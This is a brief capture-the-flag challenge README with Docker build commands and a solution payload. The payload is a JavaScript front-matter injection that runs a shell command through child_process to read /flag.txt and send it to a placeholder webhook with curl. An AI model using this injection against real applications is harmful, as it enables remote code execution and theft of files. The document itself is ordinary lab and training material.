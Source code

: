 # README

# Docker build
```bash
docker build -t chal .
docker run -p3000:3000 -it chal
```

# Solution
```
---js
((require("child_process")).execSync('flag=$(cat /flag.txt) && curl WEBHOOK_URL/?flag=$flag'))
---RCE
```